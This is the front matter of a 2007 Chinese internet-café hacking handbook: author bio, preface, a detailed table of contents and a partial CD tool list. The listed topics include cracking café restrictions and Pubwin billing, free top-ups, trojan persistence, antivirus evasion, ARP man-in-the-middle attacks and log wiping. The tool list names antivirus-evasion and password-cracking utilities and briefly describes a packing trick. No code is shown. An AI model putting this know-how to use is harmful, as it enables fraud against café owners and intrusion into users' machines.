# 网吧黑客2007

# 黑客手册

王军 编著  
☢ 入侵非授权计算机和传播病毒是一种违法行为。请遵守国家相关法律法规。

- 注册表黑客
- 组策略黑客
- VBS、JS 脚本黑客
- INF 文件的编写与黑客应用
- Windows 应用黑客
- 还原系统的破解
- 批处理黑客
- Pubwin 黑客
- 远程密码猜解
- 缓冲区溢出漏洞攻击
- ARP 欺骗和中间人攻击
- 入侵者如何隐藏自己
- 网吧客户如何保护自己

### 入侵策划

### 黑客入门速查

## 网吧黑客2007


### NOHACK.CN

## 黑客入门攻防&网吧黑客2007

作者：王军


### NO HACKING


## 作者简介

王军（星雨石轩），河北怀来人，现就读于中国管理软件学院软件工程系，大一学生。目前担任《黑客手册》“泡吧”、“Q版黑客”等栏目的责任编辑。2005 年开始接触黑客技术，2006 年 1 月第一次在《黑客手册》上发表文章，接着在后面几期的杂志中又陆续发表了几篇有关网吧安全的文章，对网吧黑客有一定程度的研究和探索。

在网吧学习黑客技术的过程中，我获得的不只是破解以及入侵的方法，更多的是有关 Windows、网络和安全技术的相关知识，我相信这些更有价值。网吧是很多黑客技术初学者起步的地方，对我来说就是的。学习是一个积累的过程，所以坚持很重要，当知识积累到一定程度后，你就会发现很多事情都可以做了。另外不断学习也是很重要的，因为学到的越多就会明白自己知道的越少。


- 作者：王军
- 出品人：非安全
- 编辑：Python、LCX、latteye、空气、袁昊洋、小S、混迹天堂、李文杰、眼镜猴、李亦聪
- 特约编辑：风飘雨、小迷、XApache、剑心、寂寞刺猬、张宇、LinX、B4N、菩蛙王子
- 平面策划：黑裤子
- 网站：www.nohack.cn
- 网站编辑：ICEYES、空气
- 形式：1CD + 1 手册，手册仅随光盘一同赠送，不得单独销售。
- 版权声明：图文版权所有，未经同意，不得转载。
- 投稿信箱：nohack@21cn.com
- 邮购查询：hope_wym@sina.com
- 光盘投稿/交流信箱：CD@nohack.cn



## 前言·导读

### 网吧安全现状

网吧是许多人再熟悉不过的公共场所了，自诞生之日起，它前进的脚步就一直没有停歇。直到今天，网吧已经发展到了令整个行业都刮目相看的地步。网游、社区、个人博客，这些互联网上的最大噱头在网吧上演得如火如荼。互联网是当今社会娱乐的新方向，而网吧则无疑是享受这种娱乐的最佳场所。

随着网吧的迅猛发展，一些问题也逐渐暴露出来，越来越多的治安问题在网吧出现。打架斗殴之类的事情时有发生，类似网吧失火这类的安全事故也常见诸于报纸等媒体，甚至还有敲诈勒索这样的犯罪事件发生。也许是因为这些原因，前一段时间文化部、工商总局、公安部、信息产业部等 14 部委日前联合印发了《关于进一步加强网吧及网络游戏管理工作的通知》，通知要求，2007 年各地均不得审批新的网吧。这条消息是许多人都始料未及的，当然也包括那些正准备踏入网吧这块市场的人。

然而网吧中的不安全因素绝不仅仅是上面提到的那些，新的问题正在网吧中愈演愈烈，这就是来自网络上的威胁。目前网吧面临的首要网络安全问题恐怕就是盗号了，这主要针对的是网络游戏的账号，盗号者意在获取游戏中的虚拟货币或装备，或者将这些虚拟物品按照真实货币牟取暴利；而盗号者除了来网吧上网的客户外，有的网吧老板甚至在自己的客户机上放置盗号程序。除此之外，ARP 攻击、病毒肆虐等，这些一刻也没有在网吧停止过，网吧已经成为一些不法技术持有者新的攻击目标。然而很多时候网吧显得不堪一击，不是因为攻击者的强大，而是由于网吧监管人员的网络安全意识淡薄造成的。由点及面可以看出，目前国内网络安全形势依然严峻。

### 什么是黑客（来源：百度百科）

黑客一词来源于英文“Hacker”，最早始于 20 世纪 50 年代，最早的黑客出现在麻省理工学院。黑客伴随着计算机和网络的发展而产生成长，他们不断地研究计算机和网络知识，发现计算机和网络中存在的漏洞，喜欢挑战高难度的网络系统并从中找到漏洞，然后提出解决和修补漏洞的方法。黑客通常具备计算机领域各方面的知识，他们喜欢探索软件程序奥秘，并从中增长才干。他们不像绝大多数电脑使用者那样，只规规矩矩地了解别人指定了解的狭小部分知识。黑客不干涉政治，不受政治利用，他们的出现推动了计算机和网络的发展与完善。黑客所做的不是恶意破坏，他们的存在是由于计算机技术的不健全。从某种意义上来讲，计算机的安全需要更多黑客去维护。黑客追求共享、免费，提倡自由、平等，他们相信自由并自愿地互相帮助。

但是到了今天，黑客一词已经被用于那些专门利用计算机进行破坏或入侵他人的代名词，对这些人正确的叫法应该是“骇客”。也正是由于这些人的出现玷污了“黑客”一词，使人们把黑客和骇客混为一体。黑客被人们认为是在网络上进行破坏的人。骇客和黑客的根本区别在于：黑客是有建设性的，而骇客则专门搞破坏。

一个黑客即使从意识和技术水平上已经达到黑客水平，也决不会声称自己是一名黑客，因为黑客只有大家推认的，没有自封的。他们重视技术，更重视思想和品质。作为一名黑客，道德是非常重要的，他们所遵守的不是所谓章程之类表面上的东西，而是来自内心真诚的道德，是一种信仰而不是人为外在的一种守则。也只有这些来自于黑客们内心中的道德，才可以真正约束他们。

### 关于本书

《黑客入门攻防&网吧黑客2007》一书基于网吧环境，在讲解网吧破解与入侵的基础上，渗透了黑客技术的基础知识，并进行了一定程度的深入。本书依照循序渐进的原则，从最初的网吧限制破解开始，逐步上升到 Windows 操作系统中黑客必备基础知识的学习，然后经历网吧管理软件的破解，最终上升到网吧入侵。可以说这本书涉及到了网吧安全几乎所有的方面。而从技术角度上看，从本书中读者不仅能学到注册表、组策略、VBS 和 JS 脚本、INF 文件、CMD 命令以及批处理等黑客入门基础知识，还能学习到网络协议、漏洞攻击、内网入侵和渗透等较高级的网络安全技术。从这些方面来讲，本书也是一本比较全面的黑客入门和进阶技术教程。

### 本书在内容上突出以下特色

- 以事实为依据：本书的绝大部分知识点和结论都来自作者的实验结果，而并不是单纯依靠技术资料的一面之词；
- 理论联系实际，学以致用：本书在对技术进行了讲解后会给出应用实例，这样就避免了理论与实际运用的脱节，也解决了很多朋友学到了技术但不知道该如何应用的困惑；
- 详细的因果描述：书中对于破解方法和攻击手段等，不只讲解如何操作，对于“为什么会这样”，也就是原理的描述也是很详细的，这可以使读者知其然更知其所以然，学到真正有用和专业的技术，而这也是“可以学到更多”的主要原因；
- 多侧面的表达方式：首先，本书以通俗的语言讲解难以理解的理论知识和晦涩的专业术语，使读者理解起来更容易；其次，对于后面比较高级的技术原理和复杂的操作，作者使用了模拟对话、图片解析以及动画等方式进行表达和描述，使这些让人很难接受的内容变得人性化和可视化，让读者对这些较高级的内容也能很轻易地理解。

### 主体内容描述

《黑客入门攻防&网吧黑客2007》全书分为六大部分。第一章从注册表和组策略的角度剖析了网吧限制的本质，让读者能够轻易地从正面解除限制；第二章主要讲解了 Windows 操作系统在网络安全方面的应用，其中涵盖了 VBS、JS 脚本、INF 文件、控制面板等高级 Windows 应用，可以说比较全面了，而主体内容则仍然是网吧的限制破解，是从侧面的破解或绕过限制；第三章讲解了 CMD 命令以及批处理的编写，其中 CMD 命令分为了本地命令和网络命令，也可以划分为基础命令和高级命令。其中对一些功能强大的命令的用法讲解比较详细，例如 REG、Netsh 等，利用它们你可以在网吧做任何你想做的事。最后一部分的批处理编写则属于 CMD 的高级应用了，这部分将批处理命令从初级到高级都进行了十分详尽的讲解，并配合了大量实例，让读者可以很快掌握批处理的编写，就目前来说它算是一份比较全面的批处理编写资料；第四章对 Pubwin4 和 PubwinEP 的破解做了一个小的总结，并且在本章的最后一部分详细讲解了 Pubwin4 的服务端设置、核心数据库各表字段表示的意义以及临时卡和会员卡的充值方案；第五章对网吧入侵进行了全程讲解：踩点、信息收集与整理、入侵和渗透以及权限保持，其中重点突出了三种入侵手段：远程密码猜解、缓冲区溢出漏洞攻击和 ARP 欺骗。对于这些攻击手段作者首先从相关技术的工作原理开始讲解，然后解析攻击原理，最后配合相关工具的使用进行实际操作。在本章的开始部分还加入了网络基础知识的讲解，这对理解后面要讲到的原理是非常有帮助的；第六章则分别站在入侵者、网吧客户和网管的角度讲解了各自的安全防御措施，其中以网吧客户的自我保护部分的描述最为详细。

这本书完成得比较仓促，对于书中出现的错误作者向各位读者致歉，并希望读者能指出它们，以待改进。对于书中技术上的意见和分歧，欢迎大家到黑客手册的官方论坛 www.nohack.cn/bbs 上共同讨论和交流，也可以直接找我，我在论坛上的 ID 是 Fornever，我的 E-mail 是 xingyunshisui@gmail.com。

## 第15-5课 透视网吧限制

## 目录

- 1、常见本地限制 ........................ 17
  - 1.1 界面限制 ........................ 17
    - 1.1.1 隐藏桌面
    - 1.1.2 去除任务栏上下文菜单
    - 1.1.3 禁止访问任务栏属性
    - 1.1.4 “开始”菜单中删除“关机”菜单项
    - 1.1.5 开始菜单中删除“运行”菜单项
    - 1.1.6 禁止浏览访问硬盘资源
    - 1.1.7 开始菜单中删除“查找”菜单项
    - 1.1.8 开始菜单中删除“注销用户”菜单项
    - 1.1.9 开始菜单中删除“设置”下“控制面板”及“网络和拨号连接”
    - 1.1.10 在 Shell 文件夹中关闭上下文菜单
    - 1.1.11 禁止使用网上邻居
  - 1.2 浏览器限制 ........................ 19
    - 1.2.1 禁止使用“Internet 选项”
    - 1.2.2 禁止更改各个“安全区域”的安全级别
    - 1.2.3 禁止增加或删除“安全区域”中的站点
    - 1.2.4 禁止下载
  - 1.3 其他限制 ........................ 19
    - 1.3.1 禁止使用注册表工具
    - 1.3.2 禁止用户更改口令
    - 1.3.3 禁止使用任务管理器
    - 1.3.4 禁止运行命令解释器和批处理文件
    - 1.3.5 禁止使用控制面板
    - 1.3.6 禁止启动时使用 F5、F8 键（Win9x）
    - 1.3.7 禁止修改时间

- 2、组策略与注册表 ........................ 21
  - 2.1 组策略编辑器 ........................ 21
    - 2.1.1 什么是组策略
    - 2.1.2 直观组策略
    - 2.1.3 正文序言
  - 2.2 组策略安全相关设置与注册表对应键值汇总 ........................ 23
    - 2.2.1 Windows 组件\IE
    - 2.2.2 Windows 组件\IE\Internet 控制面板
    - 2.2.3 Windows 组件\IE\Internet 控制面板\安全页\Internet 区域
    - 2.2.4 Windows 组件\Internet Explorer\浏览器菜单
    - 2.2.5 Windows 组件\Windows 资源管理器
    - 2.2.6 Windows 组件\MMC
    - 2.2.7 Windows 组件\MMC\受限的/许可的管理单元\组策略
    - 2.2.8 Windows 组件\MMC\受限的/许可的管理单元\组策略管理单元扩充
    - 2.2.9 Windows 组件\Windows Messenger
    - 2.2.10 Windows 组件\应用程序兼容性
    - 2.2.11 任务栏和“开始”菜单
    - 2.2.12 桌面
    - 2.2.13 控制面板
    - 2.2.14 控制面板\添加或删除程序
    - 2.2.15 控制面板\显示
    - 2.2.16 网络\网络连接
    - 2.2.17 系统
    - 2.2.18 系统\Ctrl+Alt+Del 选项
  - 2.3 小结 ........................ 43

- 3、注册表简介 ........................ 44
  - 3.1 注册表简述 ........................ 44
    - 3.1.1 注册表的由来
    - 3.1.2 注册表与 INI 文件的不同
  - 3.2 注册表的数据结构 ........................ 44
    - 3.2.1 注册表编辑器
    - 3.2.2 注册表结构
    - 3.2.3 注册表的数据类型
  - 3.3 注册表应用 ........................ 48
    - 3.3.1 注册表编辑器的功能
    - 3.3.2 注册表修改实例
  - 3.4 小结 ........................ 51

## 第十二章（52-110） 网吧破解新大陆

- 1. 下载者天堂 …… 54
  - 1.1 VBS 出奇招 …… 54
  - 1.2 Internet 缓存：一尘封记忆 …… 55
    - 1.2.1 双塔奇兵 …… 55
    - 1.2.2 得到什么 …… 56
  - 1.3 命令行初露锋芒 …… 56
    - 1.3.1 MT——浓缩是精华 …… 56
    - 1.3.2 FTP——专业下载 …… 58
  - 1.4 Active-X 在线 …… 59

- 2. 潜入寂静岭 …… 60
  - 2.1 在隐藏了所有本地驱动器的情况下 …… 61
    - 2.1.1 IE 的利用 …… 61
    - 2.1.2 其他方法 …… 63
  - 2.2 在禁止访问所有本地驱动器的情况下 …… 64
    - 2.2.1 利用“运行” …… 64
    - 2.2.2 利用 IE …… 65
    - 2.2.3 利用 WinRAR …… 65
    - 2.2.4 利用记事本 …… 66
    - 2.2.5 利用快捷方式 …… 66
  - 2.3 小结 …… 66

- 3. From The Inside …… 67
  - 3.1 应用控制面板 …… 68
    - 3.1.1 Internet 选项 …… 69
    - 3.1.2 安全中心 …… 69
    - 3.1.3 管理工具 …… 69
    - 3.1.4 计划任务 …… 71
    - 3.1.5 任务栏和“开始”菜单 …… 72
    - 3.1.6 日期和时间 …… 72
    - 3.1.7 添加或删除程序 …… 72
    - 3.1.8 网络连接 …… 72
    - 3.1.9 文件夹选项 …… 72
    - 3.1.10 系统 …… 73
    - 3.1.11 显示 …… 73
    - 3.1.12 用户账户 …… 73
    - 3.1.13 从命令行启动控制面板项目 …… 73
  - 3.2 系统盘中隐藏的玄机 …… 75
    - 3.2.1 在 Windows 目录下 …… 76
    - 3.2.2 在 SYSTEM32 目录下 …… 77
    - 3.2.3 在 Program Files 目录下 …… 80
  - 3.3 使用 VBS 和 JS 脚本文件 …… 82
    - 3.3.1 使用 VBS 和 JS 脚本运行程序 …… 82
    - 3.3.2 使用 VBS 和 JS 脚本操作注册表 …… 82
  - 3.4 使用 INF 文件 …… 83
    - 3.4.1 INF 文件的语法和格式设置规则 …… 84
    - 3.4.2 INF 文件的节 …… 84
    - 3.4.3 INF 文件编写实例 …… 87
    - 3.4.4 使用 INF 文件破解网吧限制 …… 87
  - 3.5 DLL 文件简述及修改 …… 88
    - 3.5.1 DLL 文件简介 …… 88
    - 3.5.2 DLL 文件的修改 …… 89

- 4. 永远的特洛伊 …… 92
  - 4.1 木马的使用 …… 92
    - 4.1.1 超强 B/S 远程控制软件 Rmtsvc …… 92
  - 4.2 木马的自启动 …… 95
    - 4.2.1 启动文件夹 …… 95
    - 4.2.2 利用注册表 …… 96
    - 4.2.3 利用服务实现自启动 …… 97
    - 4.2.4 文件捆绑与压缩 …… 99
    - 4.2.5 来自 Autorun.inf 的攻击 …… 100
    - 4.2.6 修改文件关联 …… 102
  - 4.3 突破网吧的还原系统 …… 103
    - 4.3.1 冰点还原的破解与利用 103
    - 4.3.2 还原精灵的破解 104
    - 4.3.3 还原卡破解相关 106
    - 4.3.4 捆绑流氓程序突破网吧还原系统 106
  - 4.4 木马的免杀 107
    - 4.4.1 伪装木马 108
    - 4.4.2 私密行动 108
  - 4.5 木马的伪装和隐藏技巧 108
    - 4.5.1 文件图标的修改 109
    - 4.5.2 修改文件时间 110
    - 4.5.3 其它方法 110

### 第三章（III） 命令行下的精彩

- 1、命令行初步 113
  - 1.1 认识命令提示符 113
  - 1.2 CMD 基础命令 113
    - 1.2.1 几个内部命令的使用 114
    - 1.2.2 目录操作命令 115
    - 1.2.3 文件操作命令 116
  - 1.3 使用 CMD 的帮助 117
  - 1.4 其它 117
    - 1.4.1 Windows 对于含有空格的目录或文件的处理 117
    - 1.4.2 Windows 的通配符 117
    - 1.4.3 命令行下的复制与粘贴 117

- 2、命令行的本地利用 117
  - 2.1 命令行下的本地信息获取 118
    - 2.1.1 Systeminfo 118
    - 2.1.2 Ipconfig & Tracert 118
    - 2.1.3 Net user & Net localgroup 119
    - 2.1.4 Netstat -an 119
    - 2.1.5 Net Start 120
    - 2.1.6 Net Share 120
    - 2.1.7 Tasklist 120
  - 2.2 命令行下的本地限制破解 120
    - 2.2.1 命令行的破解神话 121
    - 2.2.2 Regedit 的命令行用法 121
    - 2.2.3 REG：强大的命令行注册表编辑器 124
    - 2.2.4 START 命令的用法 124
    - 2.2.5 路径映射命令 SUBST 的利用 124
    - 2.2.6 进程结束命令 Taskkill 124
    - 2.2.7 关机命令 Shutdown 125
    - 2.2.8 命令行下的文本编辑器 Edit 125

- 3、命令行的网络应用 125
  - 3.1 网络诊断能手 PING 125
    - 3.1.1 探测远程主机的 OS 126
    - 3.1.2 探测远程主机的 IP 或主机名 126
    - 3.1.3 PING 的其它选项 127
  - 3.2 NetBIOS 工具 NBTSTAT 127
    - 3.2.1 刺探远程主机的 NetBIOS 名称表 127
    - 3.2.2 查看 NetBIOS 名称缓存 127
  - 3.3 网络路径探测工具 Tracert 128
  - 3.4 DNS 服务器验证工具 Nslookup 128
  - 3.5 超级网络工具 Netsh 129
    - 3.5.1 网络配置的查看 130
    - 3.5.2 修改网络配置 132
  - 3.6 其它命令网络功能扩展演示 132
    - 3.6.1 远程信息查询 133
    - 3.6.2 远程管理进程的查看与结束 133
    - 3.6.3 远程管理注册表 134

- 4、无敌批处理 134
  - 4.1 初级批处理命令 134
    - 4.1.1 Echo

- 4.1.2 Goto 和标签 …… 135
- 4.1.3 Rem …… 135
- 4.1.4 Call …… 136
- 4.2 批处理中的符号与参数 …… 136
  - 4.2.1 命令重定向操作符 …… 136
  - 4.2.2 其它符号 …… 137
  - 4.2.3 批处理的参数 …… 138
- 4.3 高级批处理命令 …… 139
  - 4.3.1 IF …… 139
  - 4.3.2 For …… 142
  - 4.3.3 Set 命令与环境变量 …… 146
  - 4.3.4 使用筛选器 …… 149
- 4.4 批处理命令周边 …… 151
  - 4.4.1 Color …… 151
  - 4.4.2 Title …… 151
  - 4.4.3 设置 CMD 窗口大小 …… 151
  - 4.4.4 Pushd 和 Popd …… 151
- 4.5 批处理编写实例 …… 152
  - 4.5.1 修改 IP 的批处理 …… 152
  - 4.5.2 创建服务的批处理程序 …… 153

- 1、Pubwin 系列产品简介 …… 157
  - 1.1 Pubwin 网吧管理软件的组成 …… 157
    - 1.1.1 Pubwin4 的组成 …… 157
    - 1.1.2 Pubwin EP 的组成 …… 157
  - 1.2 Pubwin 的保护与限制 …… 158
    - 1.2.1 Pubwin EP 的保护与限制 …… 158
    - 1.2.2 Pubwin4 的保护措施 …… 158
- 2、Pubwin 客户端破解 …… 158
  - 2.1 Pubwin4 的客户端破解 …… 158
    - 2.1.1 登录前的破解 …… 158
    - 2.1.2 Pubwin4 的多进程与破解 …… 159
    - 2.1.3 无法访问外网的解决方案 …… 159
  - 2.2 Pubwin EP 的客户端破解 …… 160
    - 2.2.1 未登录前的破解 …… 160
    - 2.2.2 登录以后的破解 …… 161
  - 2.3 断开网络连接的破解 …… 162
    - 2.3.1 禁用网络连接 …… 162
    - 2.3.2 停用网卡 …… 163
    - 2.3.3 利用防火墙阻断网络连接 …… 163
    - 2.3.4 绑定服务端错误的 MAC 地址 …… 163
  - 2.4 小结 …… 163
- 3、Pubwin4 客户端密码的破解 …… 164
  - 3.1 Pubwin4 管理员密码破解回顾 …… 164
  - 3.2 绕过管理员密码验证 …… 164
    - 3.2.1 反汇编 Pubwin.exe …… 164
    - 3.2.2 修改 Pubwin.exe …… 165
- 4、Pubwin4 服务端安全与免费充值 …… 166
  - 4.1 Pubwin4 服务端数据库结构 …… 166
    - 4.1.1 Business.mdb …… 166
    - 4.1.2 Control.mdb …… 167
    - 4.1.3 Member.mdb …… 168
  - 4.2 Pubwin4 的服务端操作 …… 168
    - 4.2.1 工具栏上按钮的功能 …… 169
    - 4.2.2 菜单栏中的一些操作 …… 170
    - 4.2.3 Pubwin4 服务端的密码安全 …… 171
  - 4.3 Pubwin4 下的免费充值 …… 171
    - 4.3.1 临时卡用户的免费充值 …… 172
    - 4.3.2 会员卡的免费充值 …… 172
    - 4.3.3 充值记录的消除和总账的修改 …… 172
  - 4.4 小结 …… 173

## 第五章（174—225）网吧入侵全程讲解

- 1、网络技术基础 …… 176
  - 1.1 网络技术术语 …… 176
    - 1.1.1 节点 …… 176
    - 1.1.2 工作站 …… 176
    - 1.1.3 服务器 …… 176
    - 1.1.4 局域网和广域网 …… 176
    - 1.1.5 网关 …… 177
    - 1.1.6 通信和会话 …… 177
    - 1.1.7 端口 …… 177
    - 1.1.8 网络协议 …… 177
  - 1.2 网络硬件设备 …… 178
    - 1.2.1 网络适配器 …… 178
    - 1.2.2 网络传输介质 …… 178
    - 1.2.3 集线器和交换机 …… 179
    - 1.2.4 网桥 …… 179
    - 1.2.5 路由器 …… 179
    - 1.2.6 调制解调器 …… 180
  - 1.3 网络拓扑与网吧布局 …… 180
    - 1.3.1 星型拓扑结构 …… 180
    - 1.3.2 网吧布局 …… 180

- 2、信息搜集 …… 181
  - 2.1 本地信息搜集 …… 181
    - 2.1.1 系统信息 …… 181
    - 2.1.2 本地主机系统密码的获取 …… 182
  - 2.2 目标踩点 …… 183
    - 2.2.1 端口扫描 …… 183
    - 2.2.2 利用 SNMP 刺探远程主机信息 …… 184
    - 2.2.3 漏洞与综合扫描 …… 185
  - 2.3 社会工程学 …… 187
    - 2.3.1 物理信息收集 …… 188
    - 2.3.2 利用搜索引擎 …… 188

- 3、信息整理 …… 188
  - 3.1 远程密码猜解的前提 …… 188
    - 3.1.1 目标操作系统为 Win2000 的情况下 …… 188
    - 3.1.2 目标操作系统为 WinXP/2003 的情况下 …… 189
  - 3.2 盲选缓冲区溢出漏洞攻击 …… 189
  - 3.3 ARP 欺骗发生前 …… 189

- 4、远程密码猜解及利用 …… 189
  - 4.1 SMB 下远程猜解密码全解 …… 190
    - 4.1.1 SMB 与 NTLM 身份验证机制 …… 190
    - 4.1.2 通过 SMB 实现远程猜解密码 …… 190
  - 4.2 利用密码进行远程控制 …… 194
    - 4.2.1 经典的 IPC$ 入侵 …… 194
    - 4.2.2 IPC$ 入侵中的相关问题 …… 195
    - 4.2.3 Telnet 与 NTLM 解惑 …… 196
    - 4.2.4 终端服务的利用 …… 197
    - 4.2.5 WMI 的利用 …… 198
  - 4.3 基于其它服务的远程密码猜解 …… 198
    - 4.3.1 针对 FTP 的密码猜解 …… 198
    - 4.3.2 终端服务的密码猜解 …… 199

- 5、缓冲区溢出漏洞 …… 200
  - 5.1 缓冲区溢出漏洞攻击原理 …… 200
    - 5.1.1 什么是缓冲区 …… 200
    - 5.1.2 缓冲区溢出漏洞 …… 200
  - 5.2 远程溢出前的准备工作 …… 201
    - 5.2.1 获得一个有效的攻击代码 …… 201
    - 5.2.2 Exploit 代码编译 DIY …… 202
    - 5.2.3 缓冲区溢出漏洞分类 …… 203
  - 5.3 缓冲区漏洞利用 …… 204
    - 5.3.1 Windows 的缓冲区溢出漏洞利用 …… 204
    - 5.3.2 IE 的缓冲区溢出漏洞 …… 205
    - 5.3.3 本地权限提升漏洞利用 …… 206
  - 5.4 黑掉整个星球——Metasploit …… 207
    - 5.4.1 MSFConsole 的使用 …… 207
    - 5.4.2 MSFWeb 的使用 …… 209

- 6、ARP 欺骗及基于 ARP 欺骗的攻击 …… 211
  - 6.1 ARP 协议的工作原理 …… 211
    - 6.1.1 MAC 与局域网中的数据传输 …… 211
    - 6.1.2 ARP 协议以及工作原理 …… 212
  - 6.2 ARP 协议的漏洞以及 ARP 欺骗 …… 212
  - 6.3 ARP 欺骗实例精讲 …… 213
    - 6.3.1 ARP 欺骗初步 …… 213
    - 6.3.2 实施中间人攻击 …… 215
    - 6.3.3 基于交换网络的嗅探 …… 220
  - 6.4 小结 …… 222

- 7、权限保持 …… 222
  - 7.1 后门与 RootKit 的使用 …… 222
    - 7.1.1 后门及隐藏技术简介 …… 222
    - 7.1.2 系统卧底 RootKit …… 223
  - 7.2 账户克隆 …… 223
    - 7.2.1 简单的账户隐藏 …… 223
    - 7.2.2 账户克隆与原理解析 …… 224
  - 7.3 其它 …… 225

## 第六章（226—240）安全防护相关

- 1、入侵者如何保护自己 …… 228
  - 1.1 寻找入侵者的替身 …… 228
    - 1.1.1 代理的使用 …… 228
    - 1.1.2 跳板与网吧中的 IP 隐藏 …… 230
  - 1.2 入侵前的保护措施 …… 230
    - 1.2.1 探测远程主机的防火墙 …… 230
    - 1.2.2 半开放与欺骗扫描 …… 230
  - 1.3 入侵成功后的收尾工作 …… 232
    - 1.3.1 一般系统日志的删除 …… 232
    - 1.3.2 其它 …… 232

- 2、网吧客户如何保护自己的信息 …… 233
  - 2.1 上机前的准备工作 …… 233
    - 2.1.1 初步判断可疑进程 …… 233
    - 2.1.2 利用网络连接分辨可疑进程 …… 233
    - 2.1.3 利用启动项判断可疑进程 …… 234
  - 2.2 使用中需要注意 …… 234
  - 2.3 下机前的遗留信息清除 …… 235
    - 2.3.1 清除 IE 留下的历史记录 …… 235
    - 2.3.2 Windows 中的一些历史记录 …… 236
    - 2.3.3 其它泄密的地方 …… 237
  - 2.4 小结 …… 238

- 3、网管的反击 …… 238
  - 3.1 Windows 的安全设置 …… 238
    - 3.1.1 做好 Windows 基本防御 …… 238
    - 3.1.2 设置 Windows 的权限 …… 238
  - 3.2 软件设置 …… 239
    - 3.2.1 还原系统 …… 239
    - 3.2.2 设置网吧限制 …… 239
    - 3.2.3 安全防护软件 …… 239
    - 3.2.4 网吧管理与更新软件 …… 239
  - 3.3 网络安全设置 …… 239
    - 3.3.1 如何防止 ARP 欺骗 …… 239
    - 3.3.2 其它 …… 240

- 后记 …… 240

# 光盘目录

### 第一章 透视网吧限制

**RegMon**

Regmon（Registry Monitor）是注册表监视工具，用于记录与注册表数据库相关的读取、修改、报错等操作，并支持保存、过滤、查找，便于系统维护分析。

**RegSnap**

RegSnap 可详细报告注册表及系统相关项目的变化，支持比较修改前后键值变化；还可报告系统目录、子目录文件增删改、win.ini/system.ini、autoexec.bat 等变化。

**RegShot**

RegShot 是小巧的注册表快照比较工具，可快速发现注册表变化，也可结合硬盘扫描发现可疑变动；支持将结果导出为文本或 HTML。

**Resplendent Registrar**

运行于 Windows XP/2000/NT/ME/9x 的高级注册表编辑工具，支持复制、剪切、粘贴、移动、搜索替换、书签、注释、权限设置、导入导出与监视恢复等。

**组策略修改监视工具 V1.0.0.0 绿色版**

用于监视组策略中被修改的项目，辅助定位策略相关注册表变更，便于排查和恢复。

### 第二章 网吧破解新大陆

**VbsDown.rar**：书中涉及的两个 VBS 下载代码。

**Mt.exe**：超级网管工具 MT，可替代 Windows 中部分命令及第三方工具，功能较多。

- 只有 40K 大小的体积哦！网络工具，也是黑客必备工具。
- **exe2bat**：将 .exe 转换为 .bat 的命令行小工具。
- **TcgoWeb**：通过 ActiveX 将普通软件转换为可在主页直接运行的在线版本。
- **猪悦网吧辅助工具 v5.6**。
- **SCF.RAR**：文中涉及的三个 SCF 文件代码。
- **Windows 系统快捷键汇总.txt**。
- **系统中支持“运行”输入执行的程序汇总.txt**。
- **控制面板项目对应 .cpl 文件汇总.txt**。
- **Rundll32 执行控制面板项目命令汇总.txt**。
- **网吧常用程序链接与 CHM 页面链接汇总.txt**。
- **Windows 通用管理文档汇总.txt**。
- **常用 DLL 文件、菜单和对话框信息汇总.txt**。
- **InfVbsIS.rar**：文中涉及的 Inf、Vbs、IS 文件代码。

**IcesWord**

IcesWord 是用于 Windows 2000/XP/2003 的系统排查与处理工具，可用于查探并隐藏进程、端口、注册表、文件等底层对象，偏向反木马/后门分析与修复。

**Resource Hacker**

可查看、提取、替换、编辑 Win32 可执行文件及相关资源（如图标、位图、菜单、对话框、字符串表、消息表等），支持 .exe/.dll/.cpl/.ocx 与 .res 等格式。

**Rmtsvc 2.4.7 / RmtSvc&vIDC**

集 FTP、Telnet、Proxy、vIDC 等远程控制服务于一体的工具，采用 B/S 结构，可通过浏览器进行远程控制（如 IE、Mozilla、Netscape 等）。

**srvinstw.exe**

微软出品的图形界面下安装服务的小工具。

- **srvany.exe**  
  可以为任何可执行文件提供作为服务的二进制文件的一个小程序，出自 Windows 资源工具箱。

- **万能文件捆绑器**  
  灰鸽子出品的万能文件捆绑器，可以将不同类型的文件捆绑成一个文件，然后执行这个文件，捆绑的文件就都执行了。

- **DeepUnfreezer**  
  冰点还原破解器，利用冰点的一个漏洞间接设置冰点在第 N 次后还原或者不还原。

- **WinHex**  
  一个很不错的 16 进制文件编辑与磁盘编辑软件。WinHex 以文件小、速度快、功能不输其它的 Hex 十六进位编辑器工具得到了 ZDNet Software Library 五颗星最高评价，可做 Hex 与 ASCII 码编辑修改，多文件寻找替换功能，一般运算及逻辑运算，磁盘磁区编辑（支持 FAT16、FAT32 和 NTFS）自动搜寻编辑，文件比对和分析等功能，另外 8.3 版开始新增了 RAM 编辑功能！

- **还原精灵 6.1 密码破解器**  
  功能就像它名字描述的那样，选择“破解方式”可直接进入还原精灵 6.1 的设置，可以更改密码等，选择“正常方式”正常登录。

- **还原卡密码读取工具 for win2000**  
  还原卡密码读取工具 WIN2000/XP 版本，这是个功能强大的还原卡破解工具，可以破解很多品牌还原卡的密码。

- **Boler**  
  加密工具伯乐，使用它可以实现傻瓜式的 exe 程序加密以躲过杀毒软件的追杀。它的使用非常简单，不过加密的程序不能太大了。

- **秘密行动**  
  国外的一个多功能小工具，其中有个加密的功能，可以躲过杀毒软件的查杀。我们可以用秘密行动向程序中添加空字符，再使用 UPX 壳加密，然后打乱 UPX 文件头，这种方式也可以躲过很多杀毒软件。

- **IconLover**  
  老外的一个图标制作工具，可以从 EXE 文件中提取图标，效果不错，提取的图标和原 EXE 文件的基本一样。这里收录的是共享版的。

- **setime.exe**  
  修改文件创建时间的一个命令行小工具。

- **exe2txt**  
  就像它的名字描述的那样，它是和 exe2bat 功能类似的程序，不过它支持更大的文件的转换，比 Exe2bat 稳定。

- **INFTool**  
  INFTool 是一个软件安装程序制作工具和 INF 制作辅助工具。制作绿色补丁经常要用到 INF 文件，这个 INF-Tools 是一个软件安装程序制作工具和 INF 制作辅助工具，小巧简单但功能很强！

- **Autoruns**  
